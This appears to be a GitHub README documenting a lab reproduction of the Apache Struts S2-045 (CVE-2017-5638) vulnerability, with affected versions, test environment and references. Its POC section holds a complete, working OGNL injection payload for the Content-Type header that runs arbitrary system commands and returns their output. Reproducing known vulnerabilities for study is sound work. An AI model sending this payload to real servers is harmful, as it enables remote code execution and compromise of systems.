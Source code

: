# S2-045 Demo

## Summary

Impact of vulnerability: Possible RCE when performing file upload based on Jakarta Multipart parser

Affected Software:  `Struts 2.3.5` - `Struts 2.3.31`, `Struts 2.5 - Struts 2.5.10`

Problem: 在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

## Environment

Struts2 Version: `Struts-2.3.24`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{FA66A3B9-0238-4B3D-A51E-8542B25F51EB}_20200724165155]({FA66A3B9-0238-4B3D-A51E-8542B25F51EB}_20200724165155.jpg)

Payload: 

```java
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```

## Debug



## Reference

- [S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)
- [S2-045 远程代码执行漏洞（CVE-2017-5638）]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-045/README.zh-cn.md)
- [Struts-S2-045漏洞利用（含环境搭建、含POC）](https://blog.csdn.net/zzkk_/article/details/77159524)

